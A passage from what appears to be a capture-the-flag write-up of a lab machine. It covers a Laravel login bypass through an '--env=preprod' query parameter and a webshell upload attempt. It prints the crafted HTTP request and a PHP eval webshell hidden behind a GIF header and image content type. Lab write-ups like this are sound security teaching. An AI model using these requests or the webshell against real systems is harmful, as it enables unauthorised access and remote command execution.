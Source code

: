 ```bash
...
```

The scan identified several interesting pages, including `/login`, `/logout`, and a `robots.txt` file.

-----

### 🛡️ Initial Access: Environment Variable Bypass

Upon navigating to the `/login` page and attempting to log in, I observed that the application displayed a detailed error message, including part of the source code.

The code snippet reveals a key vulnerability. It shows an `if` statement checking the `remember` variable for the values `'False'` or `'True'`. However, it lacks an `else` block, meaning if `remember` is set to any other value, the `$keep_loggedin` variable remains undefined. This isn't the main vulnerability, but it points to a sloppy coding style.

The main vulnerability lies in how the application handles its environment. The source code analysis shows that if the current environment is set to **`"preprod"`**, the application automatically logs in the user with **`user_id = 1`** and redirects to the admin page.

This is a known vulnerability in some Laravel applications where the environment can be manipulated via query string parameters. A simple GET parameter `"--env=preprod"` can be used to set the environment.

I crafted a request to exploit this:

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
_token=JNCSO9rXXXXXXXXXXXXXXXXXXXXXXXXXXXx&email=a%40a.c&password=123&remember=True
```

By adding `?--env=preprod` to the URL, I bypassed the login and gained access to the admin panel.

-----

### 🐚 Shell as `www-data`

Within the admin panel, I found a **profile** page with a file upload functionality. My goal was to upload a webshell to gain command execution.

First, I tried uploading a file named `shell.phtml` with the following content:

```http
-----------------------------60487661513624885101007722530
Content-Disposition: form-data; name="upload"; filename="shell.phtml"
Content-Type: image/jpg
GIF89a
<?php eval($_GET["cmd"]);?>
-----------------------------60487661513624885101007722530--
```

The upload was successful, but when I tried to access it via the web, the file was downloaded instead of being executed. This indicates the server doesn't process `.phtml` files as PHP.
